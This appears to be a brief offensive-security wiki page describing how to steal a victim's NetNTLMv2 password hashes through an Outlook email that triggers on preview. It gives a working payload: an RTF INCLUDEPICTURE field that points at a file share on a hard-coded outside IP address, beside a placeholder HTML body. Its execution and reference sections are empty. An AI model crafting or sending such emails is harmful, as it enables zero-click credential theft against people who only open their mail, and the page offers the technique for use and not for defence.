




# NetNTLMv2 hash stealing using Outlook

## Context

If the target system is not running the latest version of windows/office, it is possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any user interaction on the email - selecting an email for its preview to be rendered is enough for the hashes to be stolen.

## Weaponization



```markup
<html>
    <h1>holla good sir</h1>
    
</html>
```





```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```









## Execution

```text

```



## References



